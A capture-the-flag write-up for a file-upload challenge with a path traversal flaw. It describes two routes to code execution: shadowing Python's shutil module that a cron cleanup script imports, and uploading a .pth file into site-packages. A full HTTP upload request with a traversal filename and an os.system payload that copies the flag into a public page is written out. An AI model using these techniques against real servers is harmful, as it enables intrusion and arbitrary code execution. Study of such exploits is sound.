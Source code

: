 # Filesharing
We get a service where we can upload files to, this service has a path traversal vulnerability which allows us to place any file in any directory. However overwriting files is not possible.

Additionally a cron job python script runs every 2 minutes which cleans up files in the uploads folder.

People solved this challenge in different ways, I thought that it was a bit open ended. 

## Solution 1 (From some participant)
Read the cron job in /app/cleanup.py as

```python
import os
import shutil

# specify the folder
folder = '/app/files/'

# loop through all the files in the folder
for filename in os.listdir(folder):
    file_path = os.path.join(folder, filename)
    try:
        if os.path.isfile(file_path) or os.path.islink(file_path):
            os.unlink(file_path)  # remove the file or link
        elif os.path.isdir(file_path):
            shutil.rmtree(file_path)  # remove the directory
    except Exception as e:
        print('Failed to delete %s. Reason: %s' % (file_path, e))

print("Cleanup completed.")
```
Notice that we can write to `/app` and that the script imports `shutil` and uses the `rmtree()` function. Then simply craft an evil `shutil.py` with an evil `rmtree()` function and put it in the `/app` folder and wait for the cron job to execute.

## Solution 2, my intended solution.
Some time ago I came across the following twitter post.
https://twitter.com/SinSinology/status/1646937361597739008

He uploads some pictures to show how to get code execution if you can upload a file to a server, which then executes python3.


![](1.png)

and I think this was cool to learn.

So the solution was to upload a malicious `.pth` python script to the `/usr/local/lib/python3.9/site-packages/` directory. Here is the post request:

```
POST / HTTP/1.1
Host: site.local:5000
Content-Length: 280
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYfB3shde11wST3Ce

------WebKitFormBoundaryYfB3shde11wST3Ce
Content-Disposition: form-data; name="file"; filename="../../../usr/local/lib/python3.9/site-packages/lol.pth"
Content-Type: application/octet-stream

import os;os.system("cat /flag* > /app/static/index.html")

------WebKitFormBoundaryYfB3shde11wST3Ce--```

and then browse to the front page to read the html.